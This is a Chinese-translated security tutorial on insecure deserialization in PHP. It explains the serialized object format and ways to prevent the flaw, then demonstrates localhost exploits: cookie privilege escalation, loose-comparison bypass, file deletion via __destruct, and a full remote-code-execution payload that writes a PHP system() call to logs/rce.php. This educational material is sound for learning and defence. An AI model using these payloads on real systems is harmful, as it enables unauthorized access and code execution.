# 揭开 PHP 中不安全反序列化的神秘面纱

> 原文：<https://infosecwriteups.com/demystifying-insecure-deserialization-in-php-684cab9c4d24?source=collection_archive---------0----------------------->



演职员表:PortSwigger

# 序列化与反序列化

序列化是将对象转换为顺序字节流的过程，以便可以轻松地存储在数据库中或通过网络传输。反序列化与序列化完全相反。它是将这种连续的字节流转换成功能完整的对象的过程。

对象的状态也是持久的，这意味着对象的属性及其赋值被保留。防止字段被序列化的过程因语言而异。

# 什么是不安全的反序列化？

不安全的反序列化是指用户可控制的数据被应用程序反序列化。这使得攻击者能够操纵序列化对象，并将恶意数据传递到应用程序代码中。可以用完全不同类的对象替换序列化的对象。

几乎不可能实现验证或净化来应对每一种可能发生的情况。这些检查从根本上来说也是有缺陷的，因为它们依赖于在数据被反序列化之后检查数据，在许多情况下，这对于防止攻击来说已经太晚了，您将在后面的利用示例中看到这一点。

# 如何防止不安全的反序列化漏洞

除非必要，否则应该避免用户输入的反序列化。如果您确实需要对来自不可信来源的数据进行反序列化，请采用可靠的措施来确保数据没有被篡改。例如，您可以实现数字签名来检查数据的完整性。但是，请记住，任何检查都必须在开始反序列化过程之前进行。否则，它们没什么用处。

# 利用 PHP 中不安全的反序列化

## PHP 反序列化的基础



第 2–15 行:声明一个名为 Car 的 PHP 类，它有 3 个属性 model、manufacturer 和 colour。出于演示目的，它们中的每一个都有不同的访问说明符。参数化构造函数用于初始化属性。

第 16 行:创建一个类 Car 的对象。

第 18、19 行:序列化在第 16 行创建的对象。序列化创建了一些不可打印的字符，如\x00，所以我们用\\x00 替换它，以便我们可以正确地查看输出。



```
**O:3:"Car":3:{...}**
Objects start with upper case O, followed by the the length of the class name(which is 3 because length of the word car is 3), followed by name of the class i.e. Car, followed by number of attribues in the class which is 3 (model, manufaturer and colour).**s:10:"\x00Car\x00model";s:6:"SELTOS";**
This is an attribute of the class car with it's corresponding value. 's' means a string attribute followed by the length of the name of attribute. Notice how the access specifier(private) is appended before the attribute name while serialization. \x00ClassName\x00 is the format followed in case of private attributes. This is followed by the type (s: string), length (6 characters in SELTOS) and value (SELTOS) of the attribute (model).**s:15:"\x00*\x00manufacturer";s:3:"KIA";** This is also similar to the above example however, as this attribute is of protected type, \x00*\x00 is appended before the attribute name.**s:6:"colour";s:5:"WHITE";** For public attributes nothing is appended to the attribute name. The remaining part is similar to the other attributes.Some other types of data can also be present like i for integer and b for boolean. The lenghth of the value is not required in this case.
s:6:wheels;i:4; is similar to public int wheels = 4
s:10:twowheeler;b:0; is similar to public boolean twowheeler = false
```

## 操作序列化对象

假设有一个 web 应用程序使用基于序列化的会话机制。用户详细信息以序列化形式存在于会话 cookie 中。操纵这些数据并提升我们的权限是可能的。



登录到应用程序后，我们可以看到设置了一个会话 cookie，并对其进行了 base64 编码。解码后的值，我们可以看到它是一个序列化的 PHP 对象。


这个 cookie 中有一个有趣的属性:admin，它被设置为 0。我们将该值修改为 1，将其编码回 base64 并保存新的 cookie 值。



刷新页面后，我们可以看到现在可以访问页面的管理部分。



在后端代码中，我们可以看到应用程序盲目地信任序列化数据(第 7 行)，并根据对象属性的值提供访问控制(第 21 行)。因为可以修改该对象属性并提升我们的权限。



## 操作 PHP 数据类型和比较

这段代码基本上是 PHP 如何处理数据类型和松散比较以及如何操作的概念证明。打开此页面并点击设置/重置按钮后，cookie 即被设置。这个 cookie 是包含一个`username` 和一个`token`的类`Secret` 的序列化对象。默认情况下，它将显示用户的特权较低，但是，如果用户名为 admin，并且令牌设置为超级机密的 admin 令牌，则可以访问 admin 部分。在下一节中，我们将看到如何通过操纵 PHP 比较数据的方式来绕过这些需求。

PHP 的松散比较很奇怪，因为它有以下特点:

*   当比较整数和字符串时，PHP 会将字符串转换为整数。这意味着`5 == "5"`
*   当比较一个字母数字字符串和一个数字时，它将首先检查字符串是否以数字开头。如果它以一个数字开始，它将忽略字符串的其余部分。这意味着`2 == "2 some random string"`相当于`2 == "2"`。
*   如果这个字符串不包含整数，那么它被转换为 0，可能是因为它包含 0 个数字。所以`0 == "Somestring"`为真。



在这次利用中，我们将做完全相同的事情。我们将把名称改为 admin，并将令牌改为整数 0。



重新加载页面后，页面现在认为我们是管理员，我们已经绕过了没有超级秘密访问令牌的身份验证检查。



这只适用于反序列化的对象。如果直接从参数中获取密码，它将不起作用，在这种情况下，它将被转换为字符串。这只是因为数据类型在序列化中被保留，并且可以将类型更改为整数。

## 魔法方法和任意对象

魔术方法是自动调用的特殊函数。这些函数以双下划线开头，例如 `__construct()`。一旦创建了一个新对象，就会调用`__construct()`方法。开发人员可以实现自己的`__construct()`方法来实现参数化的构造函数。还有其他几种神奇的方法，但我们将重点关注`__destruct()`和`__wakeup()`。

一旦该类的序列化对象被反序列化，就会调用`__wakeup`。__wakeup()的用途是重新建立序列化过程中可能丢失的任何数据库连接，并执行其他重新初始化任务。在 PHP 代码执行结束时，会为每个 PHP 对象自动调用`__destruct()`方法。



在这段代码中，有一个名为 Serialkiller 的类，它将用户名作为构造函数的输入。

*   之后，它初始化日志和缓存的文件路径。这些文件将被创建在`/logs`和`/cache`目录下。
*   有一个助手方法`createFile()`创建文件，还有一个`logEntry()`将数据写入文件。
*   当脚本执行完成时,`__destroy()`魔术方法删除用户的缓存文件。
*   如果文件日志和缓存文件不存在，神奇的方法会重新初始化它，然后创建一个日志条目。



在类声明之后，我们创建一个 Serialkiller 类的实例，并编写一个测试日志。在第 43–50 行，我们打印了之前创建的实例的序列化形式。我们用 URL 编码的形式`%00`替换`\x00`。我们将修改这个输出来创建我们的漏洞。

如果在 GET 请求中设置了 data 参数，程序会反序列化任何作为输入给出的内容。我们将用它来测试我们的战功。



在执行脚本之后，我们得到了序列化的对象，我们将使用它来开发漏洞。对于第一个漏洞，我们将通过操作 __destruct 函数从 webroot 中删除 test.txt 文件。



我们将在序列化对象中将 cache_file 属性的值更改为 test.txt，并通过将它作为 data 参数的输入进行反序列化。在反序列化之后，cache_file 属性指向 test.txt。当调用 __destruct()方法时，它会删除 test.txt(第 27 行)。

```
O:12:"Serialkiller":4:{s:24:"%00Serialkiller%00cache_file";s:8:"test.txt";s:22:"%00Serialkiller%00log_file";s:13:"logs/john.log";s:21:"%00Serialkiller%00content";s:12:"Starting log";s:18:"%00Serialkiller%00user";s:4:"john";}
```



我们可以从下一个截图中验证 test.txt 文件已经被删除。



对于下一个漏洞，我们将通过在服务器上创建一个恶意的 PHP 文件并执行它来在服务器上执行代码。为此，我们将使用`__wakeup()`函数。

我们知道一旦对象被反序列化，就会调用`__wakeup()`。在函数内部，它创建一个日志文件并添加一个日志条目。我们将处理变量的值，这样就不用创建日志文件，而是创建一个 PHP 文件，不用写日志条目，而是在 PHP 文件中写一些恶意的 PHP 命令。我们按照下面的步骤来利用这一点

*   我们将有效负载中的`log_file`属性修改为我们想要生成的 PHP RCE 文件的目标路径(在下面的例子中为`logs/rce.php`)。一旦 createFile()被调用，它将检查`logs/rce.php`(这是`log_file`变量的值)文件是否存在，如果它不存在，它将创建它(第 21，35 行)。
*   类似地，我们将把有效载荷中的`content`属性修改成一些 PHP 代码，比如`<?php system('dir C:\\'); ?>`。第 22 行调用的`logEntry()`方法获取`content`变量的值，并将其写入`log_file`。因此，恶意的 PHP 代码将被写入到`/logs/rce.php`文件中。

有效负载应该如下所示:

```
O:12:"Serialkiller":4:{s:24:"%00Serialkiller%00cache_file";s:16:"cache/john.cache";s:22:"%00Serialkiller%00log_file";s:12:"logs/rce.php";s:21:"%00Serialkiller%00content";s:28:"<?php system('dir C:\\'); ?>";s:18:"%00Serialkiller%00user";s:4:"john";}
```

由于该程序反序列化了 GET 参数`data`中传递的任何内容，我们可以通过在浏览器上打开以下页面来执行有效负载:

```
http://localhost/injection.php?data=O:12:"Serialkiller":4:{s:24:"%00Serialkiller%00cache_file";s:16:"cache/john.cache";s:22:"%00Serialkiller%00log_file";s:12:"logs/rce.php";s:21:"%00Serialkiller%00content";s:28:"<?php system('dir C:\\'); ?>";s:18:"%00Serialkiller%00user";s:4:"john";}
```



在执行了上面的有效负载之后，我们导航到在`http://localhost/logs/rce.php`中创建的新 PHP 文件。我们可以看到执行代码是可能的。



还有一种叫做小工具的东西，它是代码本身中的代码片段。这些小工具可以被链接起来利用，但是没有源代码几乎不可能找到它们，而且要花很多时间。我们可以使用 [PHPGGC](https://github.com/ambionics/phpggc) 工具为这些已知的小工具链创建有效负载。

以上例子中使用的所有代码都可以在我的 GitHub 库[这里](https://github.com/sh4d3s/Insecure-Deserialization)找到。我计划为 Java 和。很快就网了。

# 进一步阅读

*   [https://www . net sparker . com/blog/we B- security/untrusted-data-unserialize-PHP/](https://www.netsparker.com/blog/web-security/untrusted-data-unserialize-php/)
*   [https://portswigger.net/web-security/deserialization](https://portswigger.net/web-security/deserialization)
*   [https://blog . rips tech . com/2018/new-PHP-exploitation-technique/](https://blog.ripstech.com/2018/new-php-exploitation-technique/)